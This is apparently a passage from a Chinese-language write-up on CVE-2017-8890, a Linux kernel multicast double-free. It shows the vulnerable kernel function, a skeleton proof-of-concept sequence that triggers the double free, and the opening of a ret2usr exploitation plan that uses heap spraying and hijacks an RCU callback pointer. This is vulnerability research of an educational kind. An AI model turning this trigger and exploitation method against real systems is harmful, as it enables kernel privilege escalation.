 ```c
	rtnl_unlock();
}
// ip_mc_leave_src —— 导致崩溃的函数，在第一次mc_list释放后，这块dirty内存的数据就可能会其它线程使用了。
static int ip_mc_leave_src(struct sock *sk, struct ip_mc_socklist *iml,
			   struct in_device *in_dev)
{
	struct ip_sf_socklist *psf = rtnl_dereference(iml->sflist);
	int err;

	if (!psf) {															// test rbx, rbx
		/* any-source empty exclude case */
		return ip_mc_del_src(in_dev, &iml->multi.imr_multiaddr.s_addr,
			iml->sfmode, 0, NULL, 0);
	}
	err = ip_mc_del_src(in_dev, &iml->multi.imr_multiaddr.s_addr,		
			iml->sfmode, psf->sl_count, psf->sl_addr, 0);				// 崩溃点  mov ecx, DWORD PTR [rbx+0x4] 空指针引用错误（psf->sl_count）
	RCU_INIT_POINTER(iml->sflist, NULL);
	/* decrease mem now to avoid the memleak warning */
	atomic_sub(IP_SFLSIZE(psf->sl_max), &sk->sk_omem_alloc);
	kfree_rcu(psf, rcu);
	return err;
}
```

#### （3）PoC

**[poc](https://github.com/beraphin/CVE-2017-8890/blob/master/poc.cpp)流程**：

```c
	sockfd = socket(AF_INET, xx, IPPROTO_TCP);	// 创建一个服务端socket
    setsockopt(sockfd, SOL_IP, MCAST_JOIN_GROUP, xxxx, xxxx);	// 通过setsockopt设置MCAST_JOIN_GROUP选项，主要是让内核创建ip_mc_socklist对象
    bind(sockfd, xxxx, xxxx);
    listen(sockfd, xxxx);
    newsockfd = accept(sockfd, xxxx, xxxx);		// 通过accept创建另外一个socket，使得newsockfd在内核中的mc_list指针指向同一个ip_mc_socklist对象
    close(newsockfd)    // first free (kfree_rcu) 关闭新的socket，这时等待RCU机制的的宽限期结束后，在rcu回调函数中触发第一次kfree。
    sleep(5)            // wait rcu free(real free)
    close(sockfd)       // double free 关闭父socket，同样的位置触发第二次free。
```

---

## 二、利用—ret2usr（未开SMEP/SMAP）

#### （1）劫持控制流思路

**思路**：在第1次释放后堆喷占位，控制第2次释放时的数据，劫持控制流。

**函数指针**：再看看导致Double-Free的`ip_mc_socklist`对象，其中包含`rcu_head`对象（实际上是[`callback_head`](https://elixir.bootlin.com/linux/v4.10.15/source/include/linux/types.h#L222)结构），正好包含一个函数指针`func`。`ip_mc_socklist`对象的释放涉及到 **[RCU机制](https://blog.csdn.net/panhewu9919/article/details/114824501)**，其释放后有一个宽限期，真正释放`ip_mc_socklist`对象的回调函数是[`__rcu_reclaim()`](https://elixir.bootlin.com/linux/v4.10.15/source/kernel/rcu/rcu.h#L106)。
